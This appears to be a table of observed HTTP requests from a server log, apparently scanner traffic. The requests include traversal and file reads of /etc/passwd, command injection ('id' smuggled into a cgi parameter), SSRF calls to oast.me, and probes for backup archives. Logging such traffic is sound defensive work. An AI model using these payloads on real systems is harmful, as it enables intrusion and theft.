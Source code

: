 | 279 |                     1 | GET /cslu/v1/var/logs/customer-cslu-lib-log.log HTTP/1.1                |
| 280 |                     1 | GET /access/set?param=enableapi&value=1 HTTP/1.1                        |
| 281 |                     1 | GET /cslu/v1/scheduler/jobs HTTP/1.1                                    |
| 282 |                     1 | POST /task/submit/ HTTP/1.1                                             |
| 283 |                     1 | GET /filex/read-raw?url=http://oast.me&cut=1 HTTP/1.1                   |
| 284 |                     1 | GET /file=http://oast.pro HTTP/1.1                                      |
| 285 |                     1 | GET /goanywhere/images/..;/wizard/InitialAccountSetup.xhtml HTTP/1.1    |
| 286 |                     1 | POST /index.php/display/status_zigbee HTTP/1.1                          |
| 287 |                     1 | GET /api/v1/markdown/link:metadata?link=http://localhost:13042 HTTP/1.1 |
| 289 |                     1 | GET /unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css HTTP/1.1         |
| 290 |                     1 | GET /xxx.xxx.xxx.xxx.tar.gz HTTP/1.1                                    |
| 291 |                     1 | GET /old.tar.gz HTTP/1.1                                                |
| 292 |                     1 | \x00\x0E8\xF7\xC2*D2o]L\x00\x00\x00\x00\x00                             |
| 295 |                     1 | GET /__screenshot-error?file=/etc/passwd HTTP/1.1                       |
| 296 |                     1 | GET /%2e%2e/%2e%2e/etc/passwd HTTP/1.1                                  |
| 297 |                     1 | GET /file=c:%5Cwindows%5Cwin.ini HTTP/1.1                               |
| 298 |                     1 | GET /file=/etc/passwd HTTP/1.1                                          |
| 299 |                     1 | GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1  |
| 300 |                     1 | GET /cgi-bin/admin.cgi?Command=sysCommand&Cmd=ifconfig HTTP/1.1         |
| 301 |                     1 | POST /classes/common/busiFacade.php HTTP/1.1                            |
| 302 |                     1 | GET /php/ztp_gate.php/.js.map HTTP/1.1                                  |
| 303 |                     1 | GET /interview?i=/etc/passwd HTTP/1.1                                   |
| 304 |                     1 | GET /device/config HTTP/1.1                                             |
| 305 |                     1 | GET /system/config_menu.htm HTTP/1.1                                    |
| 306 |                     1 | GET /?p=3232&wp_automatic=download&link=file:///etc/passwd HTTP/1.1     |
| 307 |                     1 | GET /Admin/Admin.aspx HTTP/1.1                                          |
| 308 |                     1 | GET /bin.rar HTTP/1.1                                                   |
| 309 |                     1 | GET /html.rar HTTP/1.1                                                  |
| 310 |                     1 | GET /www.rar HTTP/1.1                                                   |
| 311 |                     1 | GET /web.rar HTTP/1.1                                                   |
| 313 |                     1 | GET /xxx.xxx.xxx.xxx.zip HTTP/1.1                                       |
| 314 |                     1 | GET /old.zip HTTP/1.1                                                   |
| 315 |                     1 | GET /data.zip HTTP/1.1                                                  |
| 316 |                     1 | GET /upload.zip HTTP/1.1                                                |
| 317 |                     1 | GET /bin/bin.zip HTTP/1.1                                               |
| 318 |                     1 | GET /web.config.zip HTTP/1.1                                            |
| 319 |                     1 | GET /portal.zip HTTP/1.1                                                |